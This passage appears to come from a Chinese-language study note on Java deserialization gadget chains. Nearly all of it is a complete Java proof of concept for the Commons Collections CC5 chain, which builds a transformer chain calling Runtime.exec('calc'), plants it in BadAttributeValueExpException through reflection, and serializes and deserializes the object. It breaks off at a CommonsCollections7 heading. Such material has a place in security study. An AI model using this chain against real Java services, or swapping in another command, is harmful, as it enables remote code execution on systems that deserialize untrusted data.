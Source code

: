 ```plain
public class CC5BadAttributeValueExpException {
    public static void main(String[] args) throws Exception{

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


//赋值操作
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        //设置私有属性val
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,tiedMapEntry);


//        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

## CommonsCollections7：
